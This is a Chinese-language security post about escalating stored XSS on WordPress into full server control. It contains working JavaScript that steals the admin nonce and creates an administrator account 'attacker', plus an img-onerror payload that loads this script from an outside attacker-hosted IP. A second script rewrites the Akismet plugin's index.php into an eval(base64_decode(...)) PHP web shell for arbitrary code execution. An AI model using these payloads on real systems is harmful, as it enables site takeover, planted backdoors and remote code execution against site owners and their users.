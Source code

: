 ```yaml
---
title: "（从xss到getshell） xss的深层次利用与探讨"
id: zhfly3270
---
```


# （从xss到getshell） xss的深层次利用与探讨

今天我们的网站上公布了大量的wp的xss，那么这篇文章就是深入探讨如何深入利用xss。

如果师傅们有什么新的思路或者姿势。可以通过邮箱联系我们进行讨论与交流

联系邮箱：ian@lcx.cc

## 通过js文件添加wp系统管理员

### 1、创建管理账号

举个例子，攻击者可以在其Web服务器上托管JavaScript文件，例如wpaddadmin [.] js（在链接中描述）。此JavaScript代码将添加一个WordPress管理员帐户，其用户名为“ attacker”，密码为“ attacker”。

```
// Send a GET request to the URL '/wordpress/wp-admin/user-new.php', and extract the current 'nonce' value  
var ajaxRequest = new XMLHttpRequest();  
var requestURL = "/wordpress/wp-admin/user-new.php";  
var nonceRegex = /ser" value="([^"]*?)"/g;  
ajaxRequest.open("GET", requestURL, false);  
ajaxRequest.send();  
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);  
var nonce = nonceMatch[1]; `// Construct a POST query, using the previously extracted ‘nonce’ value, and create a new user with an arbitrary username / password, as an Administrator

var params = “[action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@site.com](mailto:action=createuser&_wpnonce_create-user=%22+nonce+%22&user_login=attacker&email=attacker@site.com)&pass1=attacker&pass2=attacker&role=administrator”;

ajaxRequest = new XMLHttpRequest();

ajaxRequest.open(“POST”, requestURL, true);

ajaxRequest.setRequestHeader(“Content-Type”, “application/x-www-form-urlencoded”);

ajaxRequest.send(params);` 
```

然后，攻击者可以使用以下PoC插入JavaScript。

```
“"&gt;&lt;img src=1 onerror="javascript&colon;(function () { var url = 'http://aaa.bbb.ccc.ddd/ wpaddadmin.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"&gt;” 
```

### 图1.插入XSS代码以添加管理员帐户

![image](../img/97ceaf33f091c57249f5bac277b01c95.png)

具有高权限的受害者查看此帖子后，将创建管理员帐户“攻击者”。

### 图2\. XSS代码被执行

![image](../img/a9c6006dc97746273d6edc47e7eb9bf3.png)

### 图3\. XSS代码创建的具有管理员权限的“攻击者”帐户

![image](../img/18854193a8135c45a3969739dad7d9be.png)

然后，攻击者可以将现有的php文件修改为Webshel​​l，并使用该Webshel​​l来控制Web服务器。

图4.使用攻击者的帐户添加一个Web Shell

![image](../img/643e2f2cc70e08b3ae62893f603f0edc.png)

图5.控制Web服务器

![image](../img/d929883375e2106e48ef99b1b0f7340f.png)

### 2、恶意命令执行

```
// Send a GET request to the URL '/wp-admin/plugin-editor.php?akisment/index.php', and extract the current 'nonce' value
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/plugin-editor.php?file=akismet/index.php"
var nonceRegex = /ce" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1]; `// Construct a POST query, using the previously extracted ‘nonce’ value, and update the content of the file ‘akismet/index.php’ with our tiny web shell

var params = “_wpnonce=”+nonce+"&newcontent=<?php eval(base64_decode($_REQUEST[‘x’]));&action=update&file=akismet/index.php"

ajaxRequest = new XMLHttpRequest();

ajaxRequest.open(“POST”, requestURL, true);

ajaxRequest.setRequestHeader(“Content-Type”, “application/x-www-form-urlencoded”);

ajaxRequest.send(params);` 
```

一旦此XSS被管理用户触发，我们应该能够通过向脚本

http://0-sec.org/wp-content/plugins/akismet/index.php

发送GET / POST请求来执行任意PHP代码，其中参数“ x”等于我们的PHP代码的“ base64_encode”。